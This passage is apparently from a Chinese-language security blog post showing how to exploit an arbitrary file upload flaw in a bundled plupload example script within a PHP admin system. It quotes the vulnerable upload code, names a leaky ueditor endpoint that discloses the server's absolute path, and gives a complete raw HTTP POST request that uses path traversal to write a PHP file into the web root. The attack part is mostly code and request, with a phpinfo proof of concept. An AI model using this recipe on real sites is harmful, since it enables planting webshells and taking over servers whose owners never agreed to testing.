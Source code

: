 ```
}
while ($buff = fread($in, 4096)) {
  fwrite($out, $buff);
}
@fclose($out);
@fclose($in);
// Check if file has been uploaded
if (!$chunks || $chunk == $chunks - 1) {
  // Strip the temp .part suffix off 
  rename("{$filePath}.part", $filePath);
}
// Return Success JSON-RPC response
die('{"jsonrpc" : "2.0", "result" : null, "id" : "id"}');
```  
  
**这里设置了上传路径为$filePath = $targetDir .****DIRECTORY_SEPARATOR . $fileName;**  
  
**其中$targetDir变量为读取php.ini文件的upload_tmp_dir参数为路径，但一般php.ini默认会注释掉这一条，这就导致了上传路径实际会回到该系统盘的根目录去创建一个文件夹 plugload.**  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5eDI8kJ4OxzBtdBZLGIHIux2xicqPFKYAycic0iabQbEIOFUVYQnNjX2IicTiaWTJnNcyXIE5pkicX0lEbA/640?wx_fmt=other&from=appmsg "")  
  
**而$fileName变量为我们可控的$_REQUEST["name"]传入，而绝对路径咱们怎么拿到呢，我用Seay信息泄露插件批量扫了一下，找到一个报错的地址，直接访问下面的文件即可得到泄露的绝对路径.**  
```
/static/admin/ueditor/php/action_list.php
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5eDI8kJ4OxzBtdBZLGIHIuxTVcu2EuJQOiaCNhm7vJ8uLofKncYdAjibEdkudFhOxgfEdibGJicFB1Qsw/640?wx_fmt=other&from=appmsg "")  
  
**得到绝对路径之后，上传自然就不是什么难事了，使用../回到根目录后直接拼接后边到public目录即可**  
  
**Payload (****仅Windows下可用****):**  
```
POST /static/newcj/js/dist/plupload-2.3.3/examples/upload.php?name=绝对路径/aaa.php HTTP/1.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: zh-CN,zh;q=0.9,ru;q=0.8,en;q=0.7
Cache-Control: max-age=0
Connection: keep-alive
Content-Length: 197
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary2DCAiDBrOjtevKJ7
Host: 127.0.0.1:81
Origin: http://127.0.0.1:81
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36
sec-ch-ua: "Chromium";v="124", "Google Chrome";v="124", "Not-A.Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"

------WebKitFormBoundary03rNBzFMIytvpWhy
Content-Disposition: form-data; name="file"; filename="1.php"
Content-Type: image/jpeg

<?php phpinfo();?>
------WebKitFormBoundary03rNBzFMIytvpWhy--
```  
  